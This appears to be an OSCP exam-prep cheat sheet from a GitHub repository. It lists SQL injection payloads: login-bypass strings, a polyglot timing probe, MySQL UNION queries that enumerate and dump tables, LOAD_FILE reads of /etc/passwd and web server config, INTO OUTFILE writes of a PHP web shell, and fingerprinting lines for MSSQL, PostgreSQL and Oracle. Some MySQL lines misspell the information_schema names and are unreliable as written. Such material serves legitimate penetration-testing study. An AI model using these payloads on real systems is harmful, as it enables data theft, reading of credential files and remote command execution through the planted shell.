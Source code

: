 # SQLI

SQL Injection is a very common attack vector in the `OSCP` exam. You will most likely see atleast one box where it is the intended attack path. I would recommend to anyone that is unfamiliar with `SQL` to learn the language on a basic level first, and then understanding `SQLI` is way easier. With that being said the first thing you want to do is stuff the input fields with common `SQLI` cmds:

### Auth Bypass / SQLI Checker

#### God-Tier One-Liner

```txt
// Shoutout hacktricks and https://labs.detectify.com/ethical-hacking/ultimate-sql-injection-payload/ for this one.

SELECT * FROM some_table WHERE double_quotes = "IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/"
```

#### List of CMDs you could try

```txt
';#---                   // List pulled from 0xsyr0's github.
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

### SQL Injection

After stuffing the input fields you should either obtain access to the system as admin or the first user in the database. If not, you might've received a success message or something like that telling you that the SQL server accepted your input. Before trying please remember that I am using `'` in this situation at the beginning of every `cmd` but this will change depending on which character worked for you in the previous steps. Lastly, it's important to recognize that each different type of `SQL` db will have its own injection techniques. Next, try these common injections:

#### MySQL

```txt
# Get number of columns
' ORDER BY 3--

# Fingerprinting
' UNION SELECT 1, VERSION(), 3--
' UNION SELECT 1,2, DATABASE()--
' UNION SELECT 1,2, USER()--

# Get table name
' UNION ALL SELECT 1,2, GROUP_CONCAT(table_name) FROM information.schema.tables WHERE table.schema="<DATABASE>"--

# Get column name
' UNION ALL SELECT 1,2, GROUP_CONCAT(column_name) FROM information.schema.columns WHERE table.schema="<DATABASE>" AND table.name="<TABLE>"--

# Data dump
' UNION ALL SELECT 1,2,GROUP_CONCAT(CONCAT_WS(':', col1, col2, col3) SEPARATOR ' | ') FROM <TABLE>--

# File read
' SELECT LOAD_FILE('/etc/passwd')--

# Grab web config info
' SELECT LOAD_FILE('/etc/httpd/conf/httpd.conf')--

# AND

' SHOW VARIABLES LIKE 'secure_file_priv'--

# Create webshell
' SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/<FILE>.php"--

# OR

' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/<FILE>.php"--
```

#### MSSQL

```txt
# Fingerprinting
' UNION ALL SELECT 1,@@VERSION,3--
' UNION ALL SELECT 1,SYSTEM_USER,3--
' UNION ALL SELECT 1,DB_NAME(),3--



```

#### PostgreSQL

```txt
' UNION SELECT VERSION(), NULL-- 
```

#### Oracle SQL

```txt
' UNION ALL SELECT banner, NULL FROM v$version-- 
```
